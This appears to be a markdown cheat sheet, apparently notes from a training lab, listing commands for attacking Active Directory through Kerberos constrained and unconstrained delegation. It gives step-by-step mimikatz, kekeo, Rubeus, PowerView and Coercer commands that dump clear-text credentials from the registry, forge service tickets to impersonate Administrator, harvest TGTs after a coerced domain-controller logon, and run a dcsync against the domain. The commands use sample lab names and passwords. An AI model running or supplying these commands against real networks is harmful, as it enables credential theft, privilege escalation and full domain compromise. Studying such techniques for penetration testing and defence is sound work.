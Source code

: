 # Constrained vs Unconstrained

## Delegation configuration

#### 1) HTTP

#### 2) CIFS

#### 3) LDAP

#### 4) HOST

#### 5) MSSQL

# Constrained Delegation Exploitation 

## Example:

#### 1) Import-Module c:\tools\Powerview.ps1

#### 2) Get-NetUser -TrustedToAuth

#### 3) mimikatz.exe

#### 4) token::elevate

#### 5) lsadump::secrets (Pulls clear text credentials from registry hive)

#### 6) Exit mimikatz after "token::elevate" command

#### 7) keko.exe

#### 8) tgt::ask /user:USER/SERVICE /domain:DOMAIN /password:PASSWORD

#### 9) tgs::s4u /tgt:TICKET.KIRBI /user:USER /service:SERVICE *You can run same command to impersonate more services.

#### 10) mimikatz

#### 11) privilege::debug

#### 12) kerberos::ptt TICKET.KIRBI

#### 13) kerberos::ptt TICKET2.KIRBI

#### 14) klist

# Kerberos Constrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetUser -TrustedToAuth`                                 | Cmdlet used to enumerate user accounts that are trusted for delegation in the domain |
| `.\Rubeus.exe hash /password:Slavi123`                       | Converts the plaintext password `Slavi123` to its NTLM hash equivalent|
| `.\Rubeus.exe s4u /user:webservice /rc4:<hash> /domain:eagle.local /impersonateuser:Administrator /msdsspn:"http/dc1" /dc:dc1.eagle.local /ptt` | Using Rubeus to request a ticket for the `Administrator` account, by way of the `webservice` user who is trusted for delegation |
| `Enter-PSSession dc1`                                        | Used to enter a new powershell remote session on the `dc1` computer |

# Coercing Attacks & Unconstrained Delegation

| Command                                                      | Description                                                  |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `Get-NetComputer -Unconstrained \| select samaccountname`       | PowerView command used to idenfity systems configred for Unconstrained Delegation. |
| `.\Rubeus.exe monitor /interval:1`                           | Used to monitor new logons and extract TGTs. |
| `Coercer -u bob -p Slavi123 -d eagle.local -l ws001.eagle.local -t dc1.eagle.local` | Used to perform a coercing attack towards DC1, forcing it to connect to WS001.
| `mimikatz # lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator` | Uses `Mimikatz` to perform a `dcsync` attack from a Windows-based host. |
